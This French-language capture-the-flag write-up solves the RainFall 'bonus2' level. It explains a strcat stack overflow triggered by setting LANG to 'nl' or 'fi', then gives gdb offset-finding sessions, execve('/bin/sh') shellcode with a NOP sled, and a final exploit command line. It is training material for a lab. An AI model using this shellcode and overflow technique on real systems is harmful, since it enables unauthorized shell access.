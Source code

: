 # Soluce

```
cat - | ./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("A" * 23 + "\x25\xf3\xff\xbf" + "A" * 30)') 
```

## Description du code

Main :

-   une variable global language est declarer est est initialiser de base a 0
-   3 buffer son declarer dest et v4 d'une taille de 76, v6 d'une taille non defini
-   dest est remplie de zero
-   les 40 premier charactere de argv[1] son copier dans dest
-   les 32 premier charactere de argv[2] son concatener dans dest
-   La veleur de la variable d'environnment LANG est assignet a v6
-   Si v6 est egale a fi, la valeur de language est 1 
-   Si v6 est egale a nl, la valeur de language est 2
-   dest est copier dans v4

-   la fonction greetuser est appeler en lui passant v4 comme argument

GreetUser :

-   3 variable son declarer seulement dest est importante
-   si langage est egale a 1 "Hyvää päivää " est copier dans dest
-   si elle est egale a 2 "Goedemiddag! " est copier dans dest
-   si elle est egale a 3 "Hello " est copier dans dest
-   dest est src son concatener grace a strcat

## Explication 

On va pouvoir faire overflow le dest de la fonction getuser, et atteindre l'adresse de retour pour executer un shellcode, cependant on devra export une variable d'environemment "LANG" il faudra qu'elle est pour valeur "nl" ou "fi". L'idee est que comme argv[1] et argv[2] sont copier dans dest,et si l'on export "nl" dans LANG, la string "Goedemiddag! " sera elle aussi copier dans dest, si l'on met rien dans LANG seulement 2 octet de l'adresse de retour serons overwrite, mais avec "nl" ou "fi dest sera suffisament grande pour overwrite la totalite de l'adresse de retour.

### Pour "fi"
```
bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ gdb ./bonus2 

(gdb) run $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')

Single stepping until exit from function main,
which has no line number information.
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

### Pour ""

```
bonus2@RainFall:~$ export LANG=""
bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()
```

### Pour "nl"

```
bonus2@RainFall:~$ export LANG="nl"
bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 40)')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info r 
(...)
eip            0x42424242       0x42424242
(...)
```

### Payload

Maintenant que l'on sait, que l'adresse de retour est ecrasé, il nous suffit d'obtenir l'offset est d'y mettre un shellcode :

```
bonus2@RainFall:~$ export LANG="nl"
```
#### Shellcode
```
export SHELLCODE=$(python -c 'print("\x90" * 2000 + "1\xc0\xb0\xbe\xcd\x801\xc91\xd2Qhn/shh//bi\x89\xe3j\x0bX\xcd\x80")')

bonus2@RainFall:~$ gdb ./bonus2 
(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) run 
Starting program: /home/user/bonus2/bonus2 

Breakpoint 1, 0x0804852f in main ()
(gdb) call (char *) getenv("SHELLCODE")
$1 = 0xbffff132 "\220\220\220\220\220\220\220\220\220"...
```
0xbffff132 + 500 (pour atterir dans le nop sled) = 0xbffff326

#### Offset

(gdb) run $(python -c 'print("A" * 40)') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab
5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus2/bonus2 $(python -c 'print("A" * 40)') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 1, 0x0804852f in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
(...)
eip            0x38614137       0x38614137
(...)

38614137 -> 8aA7 -> 7Aa8 -> 23

##### Final Payload

(Argv[1] = [Padding de 40]) (Argv[2] = [Padding de 23] + [Adress du shellcode] + [Padding pour overflow])

cat - | ./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("A" * 23 + "\x26\xf3\xff\xbf" + "A" * 30)') 